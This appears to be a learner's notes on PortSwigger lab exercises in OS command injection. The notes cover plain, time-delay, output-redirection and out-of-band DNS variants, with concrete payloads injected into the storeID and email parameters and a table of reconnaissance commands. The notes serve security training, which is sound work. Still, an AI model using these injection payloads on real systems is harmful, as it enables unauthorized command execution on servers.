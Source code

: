 [OS Command Injection](https://www.hackingarticles.in/comprehensive-guide-on-os-command-injection/) (git)

## **1. OS command injection, simple case**
This lab contains an [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the product stock checker.

The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

1. Use Burp Suite to intercept and modify a request that checks the stock level.
2. Modify the `storeID` parameter, giving it the value `1|whoami`.
3. Observe that the response contains the name of the current user.

Analysis:
	![[Pasted image 20241006185925.png]]

| Purpose of command    | Linux         | Windows         |
| --------------------- | ------------- | --------------- |
| Name of current user  | `whoami`      | `whoami`        |
| Operating system      | `uname -a`    | `ver`           |
| Network configuration | `ifconfig`    | `ipconfig /all` |
| Network connections   | `netstat -an` | `netstat -an`   |
| Running processes     | `ps -ef`      | `tasklist`      |
![[Pasted image 20241006185012.png]]

## **2. Blind OS command injection with time delays**
This lab contains a blind [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay.

1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the `email` parameter, changing it to:
    `email=x ||ping + -c + 10 + 127.0.0.1||`

Analysis:

- after subbmiting the form we obsrve that every input field is accepted so we will find out which one it is susceptible for OS injection
	![[Pasted image 20241007180502.png]]

- for each field (name/email/subject) --> `|| sleep 10 #`  and URL encode it
	![[Pasted image 20241007180742.png]]
	![[Pasted image 20241007181105.png]]

## **3. Blind OS command injection with time delays**
This lab contains a blind [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at: `/var/www/images/`

The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file. To solve the lab, execute the `whoami` command and retrieve the output.

1. Modify the `email` parameter, changing it to:
    `email= || whoami>/var/www/images/output.txt ||`
2. Now use Burp Suite to intercept and modify the request that loads an image of a product.
3. Modify the `filename` parameter, changing the value to the name of the file you specified for the output of the injected command:
    `filename=output.txt`
4. Observe that the response contains the output from the injected command.

Analysis:

- Confirm blind command injection
	email field  (submit feedback form page)

![[Pasted image 20241007200025.png]]

- Check where images are stored
	`GET/image?filename=x.jpg` --> /var/www/images
	![[Pasted image 20241007200116.png]]
	
-  Redirect output to file
	email= x `|| whoami > /var/www/images/output.txt #` (url encode it)
	![[Pasted image 20241007201334.png]]
	
- Check if file was created 
	`GET/image?filname=output.txt` 
	![[Pasted image 20241007201453.png]]

## **4. Blind OS command injection with out-of-band interaction

This lab contains a blind OS [command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

1. Modify the `email` parameter, changing it to:
    `email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`
2. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified `email` parameter.

